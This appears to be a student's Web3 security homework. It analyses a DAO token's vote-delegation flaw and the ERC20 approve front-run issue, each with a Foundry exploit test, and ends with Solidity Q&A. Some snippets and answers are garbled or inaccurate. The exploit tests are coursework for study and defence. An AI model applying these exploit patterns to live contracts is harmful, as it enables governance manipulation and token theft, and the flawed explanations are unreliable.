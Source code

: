 # Web3-Security-Dev-Batch-1-HW W2

## Vulnerability Analysis

#### 1. Balance account for voting power

token balance should not account for voting power, can use `ERC20Votes.sol` for better checkpoints implementations, `ERC20Votes.sol` extension keeps a history (checkpoints) of each account's vote power, the downside is that it
requires users to delegate to themselves in order to activate checkpoints and have their voting power tracked, and to keep in mind is that voting is usually handled by governance contracts.

ps: also it save more gas, can vote without spending gas, because the delegatee is using voting on their behalf

`ERC20Votes.sol` source : <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/extensions/ERC20Votes.sol>

```sh
function _delegate uint256 _addrBalance = balanceOf(_addr);
```

#### 2. The votes getter function didn't check the availability of checkpoints

`getVotes` function doesn't check the availability of checkpoints. This means that vote powers can still remain transferable, even after member has delegated to another user and transferred tokens to other members

## POC

* Hacker control `alice` account to delegates vote power to himself, so he can create a proposal or vote on a proposal
* After delegation completed, transfer 1000 tokens to other dao member (bob, Carol), repeat the same process
* Control bob account to delegates more vote power to hacker himself, repeat the same process for Carol
* Finish all the delegations & transfer tokens to hacker himself
* Now hacker has 3000 vTokens and also 1000 vTokens

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "contracts/hack/governance/DaoToken.sol";

contract exploitTest is Test {
 DaoToken daoToken;
 address public owner = address(0);
 address public hacker =address(1337);

 address public alice= address(1);
 address public bob = address(2);
 address public carol = address(3);

 function setUp() public {
  vm.startPrank(owner);
  daoToken = new DaoToken();
  daoToken.mint(alice, 1000);
  vm.stopPrank();
  }

 function testExploit() public {
    vm.startPrank(alice);
    //hacker control alice account to delegates vote power to himself, so he can create a proposal or vote on a proposal
    daoToken.delegate(hacker);
    daoToken.getVotes(alice);
    //transfer 1000 tokens to other dao member (bob, Carol)
    daoToken.transfer(bob, 1000);
    vm.startPrank(bob);
    // control bob account to delegates more vote power to hacker himself, repeat the same process for Carol
    daoToken.delegate(hacker);
    daoToken.transfer(carol, 1000);

    vm.startPrank(carol);
    daoToken.delegate(hacker);


    // now hacker should has 3000 votes, hacker also wanna transfer 1000 tokens to himself
    daoToken.transfer(hacker, 1000);
    vm.stopPrank();

 uint hacker_vote = daoToken.getVotes(hacker);
    console.log("Vote Count of Hacker before attack: %s ", hacker_vote);

 uint hacker_balance= daoToken.balanceOf(hacker);
    console.log("Hacker's daoToken after the attack: %s: ", hacker_balance);

 assertEq(hacker_vote , 3000);
 assertEq(hacker_balance, 1000);
    }

}
```

## Group Assignments

<https://docs.google.com/presentation/d/1rjvzU7y3j6_k4SY-PuKBs-F7jb4E4UZwPqKDohSYJas/edit#slide=id.g269bc814b66_0_107>

##### Q: Why the state variable _totalSupply is set to private?

these private states indicate that these variables should not be allowd to be modified or also be inherited the corresponding contract

##### Q: Why the state variable _balances is set to private?

The methodology remains the same, ensuring that they are not visible in derived contracts

##### Q: What is difference between _msgSender() and msg.sender?

The _msgSender() is a virtual function that can be overridden, so for a basic smart contract, it doesn't do much, it just returns msg.sender

But for a GSN-like contract, _msgSender is overridden and_msgSender would return the sender via payload(maybe msg.data) and not the actual caller

##### Q: Why the state variable _allowances is set to private ?

The methodology remains the same, ensuring that they are not visible in derived contracts

##### Q: What is the potential risk of directly overwriting the old value of _allowance? (Write a PoC to validate it)

Poc Action : Allowance front-run attack

* Front run ERC20 approve
* Owner approves 1000
* Spender spend 1000
* Owner updates approval to 100
* Spender spend 100

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.22;

import {Test, console2} from "forge-std/Test.sol";
import {Token} from "../src/Token.sol";

contract ERC20ApproveTest is Test {
    // Front run ERC20 approve
    // 1. Owner approves 1000
    // 2. Spender spend 1000
    // 3. Owner updates approval to 100
    // 4. Spender spend 100
    Token private token;
    address private constant owner = address(11);
    address private constant spender = address(12);

    function setUp() public {
        token = new Token("token", "TOKEN", 18);
        token.mint(owner, 2000);
    }

    function test() public {
        // Owner approves 1000
        vm.prank(owner);
        token.approve(spender, 1000);

        // Spender spends 1000
        vm.prank(spender);
        token.transferFrom(owner, spender, 1000);

        // Owner updates approval to 100
        vm.prank(owner);
        token.approve(spender, 100);

        // Spender spends 100
        vm.prank(spender);
        token.transferFrom(owner, spender, 100);

        console2.log("spender balance", token.balanceOf(spender));
    }
}
```

##### Q: Zero address is invalid in ERC721, but not in ERC20 and ERC1155. Why?

ERC-20 and ERC-1155, on the other hand, do not have this restriction by default, and the decision to support or disallow transfers to the zero address is left to the developers implementing those standards

##### Q: What doest the assembly block actually do?

Solidity Assembly allowing developers to write lower-level code directly
